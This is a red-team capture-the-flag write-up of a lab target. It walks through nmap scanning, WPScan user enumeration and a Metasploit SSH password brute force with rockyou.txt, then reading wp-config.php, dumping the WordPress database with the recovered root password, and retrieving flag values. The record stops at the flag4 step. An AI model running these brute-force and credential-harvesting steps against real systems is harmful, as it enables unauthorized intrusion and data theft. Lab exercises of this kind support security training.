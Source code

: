 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24

```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH 6.7p1 | Ports: 22
  - Apache httpd 2.4.10 | Ports: 80
  - Samba smbd 3.X - 4.X | Ports: 139, 445

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPscan to enumerate users on Target 1
   - Commands:
```wpscan --url http://192.168.1.110/wordpress -e u```

```$ msfconsole```
` > search ssh_login`
` > use 0`
` > set rhost 192.168.1.110`
` > set username michael`
` > set pass_file /usr/share/wordlists/rockyou.txt`
` > set stop_on_success true`
` > run`

‘> exit -y`
`$ ssh michael@192.168.1.110`

`$ grep -rnw / -e “flag1” 2> /dev/null`


  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ find / -iname “flag2*” 2> /dev/null`
`cat /var/www/flag2.txt`


  - `flag3`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ cat /var/www/html/wordpress/wp-config.php`

`$ mysqldump wordpress -u root -pR@v3nSecurity > dump`
`$ grep “flag3” dump`


Note: flag4 is located here as well

  - `flag4`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Same exploit used to obtain flag 1
   - Commands:
`$ mysql wordpress --user=root -pR@v3nSecurity`
`>  `



